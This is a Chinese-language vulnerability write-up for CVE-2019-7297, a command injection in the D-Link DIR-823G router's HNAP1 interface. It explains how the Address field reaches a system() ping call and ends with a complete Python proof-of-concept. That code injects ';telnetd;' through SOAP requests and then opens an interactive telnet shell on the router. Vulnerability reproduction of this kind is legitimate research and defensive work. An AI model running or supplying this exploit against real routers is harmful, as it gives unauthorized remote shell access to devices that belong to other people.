 # （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞

## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。GetNetworkTomographyResult函数中调用system函数，执行的内容中包括不受信任的用户输入Address字段，攻击者可以远程执行任意命令。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

漏洞原理中提到的GetNetworkTomographyResult函数是在goahead二进制文件中实现的。在function_list中找到对应的函数地址。

GetNetworkTomographyResult获取address，number，size参数，作为ping的参数。

![image](resource/%EF%BC%88CVE-2019-7297%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/11-20201014111429856.png)

```
ping address -c number -w number -s size > /tmp/ping.txt 2>>/tmp/ping.txt
```

但在system之前并没有对这些外来参数进行检查，如果address为`;telnetd;`就能启动Telnet服务。可以看出这些参数都是通过apmib_get获取的，那么在之前一定有apmib_set进行设置，在IDA中查找关键字0x1b72，0x1b73，0x1b73，定位到apmib_set的位置，结合ghidra的反汇编代码，确定在`SetNetworkTomographySettings`函数中可以对这些参数进行设置。

![image](resource/%EF%BC%88CVE-2019-7297%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/12-20201014111429857.png)

### poc

```
import requests
from pwn import *

IP='192.168.0.1'

headers = requests.utils.default_headers()
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/SetNetworkTomographySettings"'
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"


payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">\
  <soap:Body>\
    <SetNetworkTomographySettings xmlns="http://purenetworks.com/HNAP1/">\
      <Address>;telnetd;</Address>\
      <Number>4<Number>\
          <Size>4</Size>\
     </SetNetworkTomographySettings></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/GetNetworkTomographyResult"'
payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">\
  <soap:Body>\
    <GetNetworkTomographyResult xmlns="http://purenetworks.com/HNAP1/">\
     </GetNetworkTomographyResult></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

p=remote(IP,23)
p.interactive()
```